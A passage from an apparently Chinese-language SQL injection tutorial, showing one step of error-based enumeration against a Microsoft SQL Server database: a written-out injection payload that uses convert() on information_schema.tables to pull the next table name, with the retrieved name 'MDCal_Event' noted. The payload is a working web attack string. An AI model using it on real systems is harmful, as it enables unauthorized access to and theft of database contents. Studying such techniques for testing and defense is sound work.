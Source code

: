 ![](img/e2e916e776515701da730cc42e449677.png)

图:b

c)现在使用查询:`‘ and 1=convert(int,(select top 1 table_name from information_schema.tables where table_name not in (‘Download_Dcoument’,'login_audit')))--`

上面的查询将从数据库中检索“login_audit”之后的下一个 top **table_name** 。

请注意值“MDCal_Event ”,这是我们获取的 table_name。

![](img/586cc04c979dcad4e84f1f96a8c1bde3.png)
